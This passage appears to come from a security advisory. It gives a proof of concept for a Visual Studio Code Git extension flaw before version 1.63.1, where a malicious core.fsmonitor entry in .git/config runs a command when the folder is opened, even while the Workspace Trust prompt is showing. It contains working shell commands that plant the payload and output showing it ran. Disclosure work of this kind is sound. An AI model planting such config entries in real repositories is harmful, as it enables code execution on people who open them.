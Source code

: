 Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Observe that `/tmp/win` does not exist. Run `code` against the directory containing the malicious `.git` directory, have Visual Studio Code pop up as an X application, and observe that `/tmp/win` now contains the results of our payload:

```plain
user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ cat /tmp/win
cat: /tmp/win: No such file or directory

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ code poc

[... Visual Studio Code opens as an X application ...]

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ cat /tmp/win
Pwned as uid=31337(user) gid=31337(user) groups=31337(user)
```

Note that Visual Studio Code, from version 1.57 onwards, will prompt you to trust the workspace. This is due to the "Workspace Trust" feature ([Blog post](https://code.visualstudio.com/blogs/2021/07/06/workspace-trust), [Documentation](https://code.visualstudio.com/docs/editor/workspace-trust)) which prompts the user on every opening or a file or workspace as to whether the contents should be trusted. In Visual Studio Code <1.63.1, the Git extension [opted out](https://github.com/microsoft/vscode/blob/383c9cf61310017a04e3419d40622ee24c375ee1/extensions/git/package.json#L31-L33) of the protections afforded by the Workspace Trust feature. This means that our payload will execute regardless of whether the user chooses to trust the workspace - in fact, it will execute while the trust prompt is being shown:
